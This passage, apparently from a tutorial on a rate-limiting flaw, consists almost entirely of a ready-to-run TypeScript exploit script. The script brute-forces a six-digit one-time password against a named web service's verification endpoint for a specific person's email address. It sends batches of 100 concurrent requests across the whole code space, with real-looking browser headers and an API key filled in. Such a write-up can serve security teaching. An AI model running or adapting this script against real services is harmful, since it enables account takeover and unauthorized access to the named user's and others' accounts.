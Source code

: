 ### Updating the Exploit Script

Now, let's update our exploit script to brute-force the OTP on this endpoint:

```tsx
import axios from "axios";

async function sendRequest(otp: number) {
  let config = {
    method: 'get',
    maxBodyLength: Infinity,
    url: '<https://harkiratapi.classx.co.in/get/otpverify?useremail=harkirat.iitr%40gmail.com&otp=>' + otp,
    headers: {
      'accept': '*/*',
      'accept-language': 'en-GB,en-US;q=0.9,en;q=0.8',
      'auth-key': 'appxapi',
      'client-service': 'Appx',
      'device-type': '',
      'origin': '<https://harkirat.classx.co.in>',
      'priority': 'u=1, i',
      'referer': '<https://harkirat.classx.co.in/>',
      'sec-ch-ua': '"Chromium";v="124", "Google Chrome";v="124", "Not-A.Brand";v="99"',
      'sec-ch-ua-mobile': '?0',
      'sec-ch-ua-platform': '"macOS"',
      'sec-fetch-dest': 'empty',
      'sec-fetch-mode': 'cors',
      'sec-fetch-site': 'same-site',
      'source': 'website',
      'user-agent': 'Mozilla/5.0 (Macintosh; Intel Mac OS X 10_15_7) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/124.0.0.0 Safari/537.36'
    }
  };

  try {
    await axios.request(config);
  } catch (error) {
    console.error(error);
  }
}

async function main() {
  for (let i = 0; i < 1000000; i+=100) {
    const promises = [];
    console.log("here for " + i);
    for (let j = 0; j < 100; j++) {
      promises.push(sendRequest(i + j))
    }
    await Promise.all(promises);
  }
}

main()
```
